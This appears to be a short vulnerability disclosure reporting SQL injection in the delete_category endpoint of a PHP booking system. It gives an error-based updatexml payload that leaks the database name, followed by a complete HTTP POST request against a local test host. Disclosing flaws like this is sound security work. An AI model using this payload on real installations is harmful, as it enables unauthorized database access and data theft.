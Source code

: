 # Online Sports Complex Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15236/online-sports-complex-booking-system-phpmysql-free-source-code.html

Vulnerability File: \scbs\classes\Master.php?f=delete_category

Vulnerability location: /scbs/classes/Master.php?f=delete_category, id

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+

```sql
POST /scbs/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/scbs/admin/?page=categories
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p5eujbkhl692v4hpr6ltptnq06
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/165212872-88cc3654-70fb-4714-ae1d-247507812536.png)


